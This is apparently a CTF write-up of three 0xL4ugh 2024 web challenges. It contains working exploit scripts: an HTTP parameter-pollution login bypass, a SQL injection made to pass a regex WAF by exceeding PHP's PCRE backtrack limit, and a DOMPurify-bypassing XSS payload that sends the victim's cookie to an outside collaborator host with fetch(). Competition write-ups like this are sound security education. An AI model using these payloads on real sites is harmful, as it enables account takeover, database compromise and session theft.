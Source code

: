 ```yaml
---
layout: post
title:  "0xL4ugh 2024"
---
```


Last weekend, I participated in the 0xL4ugh CTF as part of [ARESx](https://twitter.com/ARESxCTF). There were some infrastructure problems, but overall it was a fun CTF and we secured the 14th place.

Unfortunately there was only 1 pwn challenge so I tried myself at web challenges and managed to solve 3. This is a write up of them: [Micro](#micro-sec), [Simple WAF](#waf-sec) and [DamnPurify](#purify-sec).

The challenge files can be found in my [repo](https://github.com/Ollrogge/CtfWriteups).

<h2 id="micro-sec">Micro</h2>
Micro was a proxy kind of challenge were one had to login as admin into a Flask web page which had a php-based web page as proxy. The credentials for the admin account were given in the challenge description (admin:admin) so the goal was simply to login.

The problem of the challenge was that the php page denied all requests with `admin` as username:
```php
if(Check_Admin($username) && $_SERVER['REMOTE_ADDR']!=="127.0.0.1")
{
    die("Admin Login allowed from localhost only : )");
}
else
{
    send_to_api(file_get_contents("php://input"));
}
```
The `REMOTE_ADDR` is taken from the IP socket so it cant be spoofed and the admin check was a simple regex which also looked safe.

### Bug
Proxy kind of challenges often have something todo with the proxy and the web page functioning differently which allows us to bypass the protective measures.

For this challenge, a clear hint is that the code uses `file_get_contents("php://input")`, which reads the complete request body instead of taking the username and password from the `$_POST` array, to forward the request to the backend server.

The vulnerability is that when sending the same key twice in a POST request body, php will return the value of the second key via `$_POST['username']` and flask will return the value of the first key via `request.form.get('username')`.

### Exploit
To exploit this we can simply send a post request that contains the key `username` twice, with the first value being `admin` and second value being anything but admin.

```python
URL ="http://20.115.83.90:1338/"

def login():
    data = [('username', 'admin'), ('password', 'admin'),('login-submit', '1'),('username','test')]

    r = requests.post(URL, data=data)

    print(r.content)

login()
```

<h2 id="waf-sec">Simple WAF</h2>
For Simple WAF one had to simply login as a valid user to get the flag. Since the only user in the database was admin, this again meant one had to login as admin.

```php
$username=$_POST['username'];
$password=md5($_POST['password']);
if(waf($username))
{
    die("WAF Block");
}
else
{
    $res = $conn->query("select * from users where username='$username' and password='$password'");

    if($res->num_rows ===1)
    {
        echo "0xL4ugh{Fake_Flag}";
    }
    else
    {
        echo "<script>alert('Wrong Creds')</script>";
    }
}
```
There is a pretty obvious SQL injection vulnerability for the `username` parameter since we fully control its contents and the code directly uses it in a SQL query. The problem however is that the username is protected by a `waf` function which limits us to only lowercase letters in the username:


```php
function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}
```
This prevents us from doing any SQL injection since we cant modify the statement.

### Bug
The bug for this challenge is a pretty big footgun in my opinion as it is not even mentioned in the documentation of the `preg_match` function. Only in the user contributed notes people mention a potential problem.

The behavior of the `preg_match` function is affected by [runtime configurations](https://www.php.net/manual/en/pcre.configuration.php#ini.pcre.backtrack-limit) such as the `pcre.backtrack_limit`. This limit sets the maximum number of backtracking steps that the regex library is allowed to make while attempting to match a regular expression. The default backtracking limit is `1000000`. If the regex matching backtracks more than this limit, `preg_match` will return `false` without throwing any kind of error.

### Exploit
We can exploit this behavior by simply appending a very long matching string before our SQL injection to pass the `waf` check:
```python
URL="http://20.115.83.90:1339/"

def login():
    print("A"*0x100000+"' OR '1'='1' -- -")

    data = {
        'username': "A"*0x100000+"' OR '1'='1' -- -" ,
        'password': 'admin',
        'login-submit': '1'
    }

    r = requests.post(URL, data=data)

    print(r.content)

login()
```


<h2 id="purify-sec">DamnPurify</h2>

DamnPurify was a challenge that used the [DOMPurify](https://github.com/cure53/DOMPurify) XSS sanitizer to try and prevent XSS. A very simple web page was given which takes the value passed via the xss URL parameter, sanitizes it via DOMPurify and then uses a regex on it which replaces `style` blocks with an empty string.

The goal of the challenge was to achieve XSS despite the sanitization and steal the cookie of the bot.

```html
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <script src="https://cure53.de/purify.js"></script>
  </head>
  <body>
<script>
    window.onload = () => {
        const params = new URLSearchParams(location.search);
        injection = params.get("xss");
        if (injection)
        {
            injection = DOMPurify.sanitize(injection);

            document.body.innerHTML = injection.replace(/<style>.*<\/style>/gs, "");
        }
    };
</script>
</html>
```

As DOMPurify is used extensively in practice, finding a bug directly in the library was unlikely the goal of the challenge. Therefore it had to have something to do with the regex used.

### Exploit
Nothing special really I just tried a lot of things until something worked. Final payload:

```txt
http://20.115.83.90:1337/report.php?url=http://127.0.0.1/?xss=<img src="a <style>"><style>h1 {color: white</style> " onerror=fetch("http://zdg7rcb3lqhtsuix9r6uopbk0b62uuij.oastify.com/".concat(document.cookie))</p>
```